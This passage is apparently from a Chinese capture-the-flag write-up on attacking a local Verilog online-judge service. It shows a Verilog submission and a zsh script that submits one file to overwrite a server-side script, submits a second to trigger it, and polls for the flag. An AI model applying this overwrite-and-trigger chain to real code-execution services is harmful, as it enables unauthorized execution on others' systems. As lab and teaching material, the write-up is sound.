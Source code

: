 **第二次提交**：触发新脚本执行
```verilog
`timescale 1ns/1ps
module Crossbar_2x2_4bit(
    input  [3:0] in1,
    input  [3:0] in2,
    input        control,
    output [3:0] out1,
    output [3:0] out2
);
    assign out1 = control ? in2 : in1;
    assign out2 = control ? in1 : in2;
endmodule
```

### 自动化利用脚本

```bash
#!/bin/zsh
set -euo pipefail

PORT="${PORT:-9292}"
BASE_URL="http://127.0.0.1:${PORT}"

# 检查服务状态
if ! curl -fsS "${BASE_URL}/" >/dev/null; then
    printf "服务未运行，请先启动 docker compose up -d\n" >&2
    exit 1
fi

# 第一次提交：覆盖脚本
curl -sS -X POST "${BASE_URL}/judge" \
    --data-urlencode "problem=1" \
    --data-urlencode code@payload1.v

sleep 5

# 第二次提交：触发执行
curl -sS -X POST "${BASE_URL}/judge" \
    --data-urlencode "problem=1" \
    --data-urlencode code@payload2.v

# 轮询获取 flag
for i in $(seq 1 60); do
    if curl -fsS "${BASE_URL}/flag.txt" 2>/dev/null; then
        exit 0
    fi
    sleep 2
done
```

---
